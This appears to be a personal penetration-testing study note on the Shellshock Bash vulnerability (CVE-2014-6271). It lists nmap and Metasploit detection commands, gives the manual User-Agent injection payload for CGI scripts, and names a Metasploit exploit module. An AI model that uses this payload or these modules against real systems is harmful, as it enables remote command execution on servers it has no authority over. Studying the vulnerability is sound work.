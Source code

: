 Web server software

# CVE-2014-6271 - Shellshock
Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since v1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

CGI scripts are used to exploit this vuln via apache

## Detection
```
nmap -sV IP --script http-shellshock --script-args "http-shellshock.uri=/CGI_SCRIPT"

auxiliary/scanner/http/apache_mod_cgi_bash_env
```

## Manual exploitation
![[Pasted image 20230801173704.png]]
Intercept a request to CGI script
![[Pasted image 20230801173823.png]]
Modify it with the following chars and add the command in User-Agent header
```
() { :; }; echo; echo; /bin/bash -c 'COMMAND'
```

# MSF exploitation
```
exploit/multi/http/apache_mod_cgi_bash_env_exec
```